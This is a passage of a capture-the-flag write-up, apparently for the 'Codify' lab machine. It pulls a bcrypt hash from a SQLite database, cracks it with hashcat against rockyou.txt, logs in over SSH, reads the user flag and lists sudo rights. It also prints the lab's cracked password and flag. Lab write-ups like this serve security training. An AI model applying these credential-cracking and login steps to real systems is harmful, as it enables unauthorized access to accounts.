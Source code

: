               ```db
                  format 3@  .WJ
                        otableticketsticketsCREATE TABLE tickets (id INTEGER PRIMARY KEY AUTOINCREMENT, name TEXT, topic TEXT, description TEXT, status TEXT)P++Ytablesqlite_sequencesqlite_sequenceCREATE TABLE sqlite_sequence(name,seq)��    tableusersusersCREATE TABLE users (
                        id INTEGER PRIMARY KEY AUTOINCREMENT, 
                        username TEXT UNIQUE, 
                        password TEXT
                  joshua$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2ua  users
                              ickets
                  r]r�h%%�Joe WilliamsLocal setup?I use this site lot of the time. Is it possible to set this up locally? Like instead of coming to this site, can I download this and set it up in my own computer? A feature like that would be nice.open� ;�wTom HanksNeed networking modulesI think it would be better if you can implement a way to handle network-based stuff. Would help me out a lot. Thanks!open
               ```

               1. This looks like we have a potential username and password hash for joshua
               2. Looking at the index.js file we see that it is a sqlite3 database
8. SQLITE3
   1. Lets try opening the database file with the sqlite3 tool
      1. > sqlite3 tickets.db
      2. > .tables
         1. tickets, users
      3. > select * from users;  
         1. RSEPONSE: "3|joshua|$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2"
         2. Lets try cracking this hash
9. CRACK THE HASH
   1. HASHCAT
      1. Looking at the first bit it looks like it is bcrypt so we will try mode 3200
         1. > hashcat -m 3200 '$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2' /opt/rockyou.txt
            1. RESPONSE: "$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2:spongebob1"
               1. Now we have a password, lets try loggin in as josh
10. SSH
    1. > ssh joshua@codify.htb
       1. PW: spongebob1
       2. SUCCESS
11. ENUMERATION PT.2
    1. Get user flag
       1. > cat /home/joshua/user.txt
          1. FLAG: `27e908a08327511267902c299778962a`
    2. Check for sudo privileges (if any)
       1. > sudo -l

         ```text
            Matching Defaults entries for joshua on codify:
               env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

            User joshua may run the following commands on codify:
               (root) /opt/scripts/mysql-backup.sh
         ```
